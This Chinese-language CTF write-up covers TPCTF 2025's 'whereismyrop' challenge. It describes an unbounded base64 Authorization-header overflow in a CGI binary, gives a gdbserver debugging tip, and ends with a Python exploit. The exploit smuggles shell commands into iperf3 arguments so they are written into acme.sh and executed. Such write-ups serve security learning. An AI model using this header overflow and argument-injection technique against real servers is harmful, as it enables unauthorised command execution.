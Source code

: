 ```yaml
---
title: 2025-tpctf
date: 2025-3-10
categories: 2025-tpctf
tag: httpd
---
```


# 前言
这次比赛感觉还行, 和火箭一起三题出了两题, 另一题相对简单, 堆上的溢出, 主要是逆向难度较低, 所以做出的人很多
这题的门槛感觉就高了一些, 虽然漏洞点并不难理解, 但是估计交互方式卡住了一批人(我也搞了半天, 后来火箭发现login.js提供了交互模板, 配合上逆向就很容易看懂了)

# 题目运行逻辑
题目给了一个docker, 我看了眼start.sh, 启动了一个apache的服务, 然后就是启动basement程序了, 我还以为可以直接跟basement交互, 刚开始看了一会basement, 才发现他的socket是走的文件, 才看到cgi-bin中的login.cgi

所以真正的交互逻辑是向login.cgi发送请求, login.cgi解析后通过libCgi.so中的send_cmd函数向basement发送消息, 等待basement返回, 最后将返回值传回

并且basement中有十二个可以选择的函数, 但是login.cgi中只允许选择login, register, reset_password三个操作

# 漏洞点
漏洞出现在login.cgi中, 在decodeBase64函数中, 解析HTTP_AUTHORIZATION的时候没有限制长度, 所以会出现一个向bss段上的无限写入
选择basement中函数的变量刚好就在后面, 可以被覆盖, 所以通过这个漏洞就可以选择basement中的十二个的函数执行了
![decodeBase64](./tpctf-rop/decodeBase64.png)

还有一个关键就是HTTP_AUTHORIZATION解析得到的值会作为函数执行的参数, 就等于可以控制参数的执行basement的任意函数了

# 调试技巧
本题是在docker内运行, 所以必不可少的是gdbserver调试
主要需要调试的程序有login.cgi, basement两个.
其中basement还好说, 毕竟是长时间运行的, 只要在docker attach到basement进程即可

我刚开始没想到怎么调试login.cgi, 后来火箭提醒我可以设置一个prelogin.cgi, 其中内容写
```sh
#!/bin/bash
gdbserver :9999 /usr/cgi-bin/login.cgi
```
这样每次需要调试login.cgi时, 就访问prelogin.cgi, 然后在docker外部启动gdb, 使用命令target remote:9999即可

# 利用方式
不得不说太神奇了, Linux仙人火箭用basement的iperf3做到了向acme.sh文件中写入命令, 然后再用basement中执行acme.sh命令的函数触发, 就可以做到命令执行
示例:
```sh
iperf3 -s -p 7070 
iperf3 -c 127.0.0.1 -p 7070 -T "cat flag" --logfile /root/.acme.sh/acme.sh
```
在第一行命令启动服务端后, 第二行命令链接本地的服务端, -T是title str, 会将"cat flag"放在每一行输出的头部, --logfile是将输出写到文件里, 就可以向acme.sh写入任意内容
basement中的6和8分别可以控制带参数执行服务端和客户端的iperf3

然后在10, 11, 12中都可以执行acme.sh获取命令执行
最后还被出题人恶心了一把, 真正的flag名字为什么什么flaG什么什么
昨天尝试读flag时试了`*flag*`都不行, 直接给我和火箭看傻了

还好后来火箭又找到一个办法, 用了`find / -maxdepth 1 -fprint /var/www/html/ls.html`得到根目录下所有文件名字

最后再通过`cp *flaG* /var/www/html/flag.html`, 访问`ip:port/flag.html`即可

# exp
```python
import requests
from urllib.parse import quote
import base64
from bs4 import BeautifulSoup
from pwn import *

url_port = '127.0.0.1:7070'

def hack(arg1: str, arg2: str, cmd: int):
    auth_str = arg1.encode() + b':' + arg2.encode() + b':randstr:'
    auth_str = auth_str.ljust(0x200) + p8(cmd)
    b64_auth = base64.b64encode(auth_str).decode('utf-8')
    
    headers = {
        'Authorization': f'Basic {b64_auth}',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    
    login_url = f"http://{url_port}/cgi-bin/login.cgi?reset_password"
    data = f"id={str(id_value)}"
    
    response = requests.post(login_url, headers=headers, data=data)
    print(f"{response.headers}")
    

if __name__ == "__main__":
    id_value = str(111111111111111111111111)
    hack('127.0.0.1', '7070', 6)
    hack('127.0.0.1', '7070 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', 9)
    hack('127.0.0.1', '7070 -T "cp /*flaG* /var/www/html/flag.html # " --logfile /root/.acme.sh/acme.sh', 9)
    hack(' ', ' ', 11)

```

# 后记
这题叫whereismyrop, 导致我一直非常认真地检查basement中的读入有没有溢出, 结果居然溢出出现在login.cgi, 而且是以并不能rop的形式出现, 也是有些戏剧性了. 蹲一手wp, 不会真的能做到rop吧
